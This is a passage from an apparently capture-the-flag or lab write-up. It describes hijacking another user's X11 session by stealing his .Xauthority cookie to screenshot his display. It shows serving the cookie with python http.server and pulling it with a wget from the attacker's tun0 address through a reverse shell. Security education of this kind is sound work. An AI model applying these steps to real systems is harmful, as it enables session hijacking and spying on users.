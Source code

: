 We can see that the `.Xauthority` contains the cookie of the `ross` users x11 session. Now we can use this cookie to act as user `ross` and we can gain access to the display. After gaining access, we can take try to take screenshots of the connected display to see the contents of the display.

Now we have to move this `.Xauthority` cookie file to the `alex` user’s directory to gain access to the display. To do that we will copy this `.Xauthority` file to the `/tmp` folder and we will host a simple http server from the `/tmp` directory.

<figure><img src="../../.gitbook/assets/Untitled 29 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Untitled 30 (2).png" alt=""><figcaption></figcaption></figure>

Now we have copied the file to the `/tmp` directory. Next step is to host a simple http webserver. We can do this by using the python simple `http.server` module. To do this use the following command : `python -m http.server`

<figure><img src="../../.gitbook/assets/Untitled 31 (1).png" alt=""><figcaption></figcaption></figure>

Now you can see that our `/tmp` is hosted on port `8000`. Now from the reverse shell we obtained to the `/home/alex` directory, use the following command to download the `.Xauthority` file from our local machine.

Note : In this case we have to use our local machine’s `tun0` ip address to download the file.

Command : `wget http://<tun0-IP-ADDRESS>:8000/<FILENAME>`

<figure><img src="../../.gitbook/assets/Untitled 32 (1).png" alt=""><figcaption></figcaption></figure>
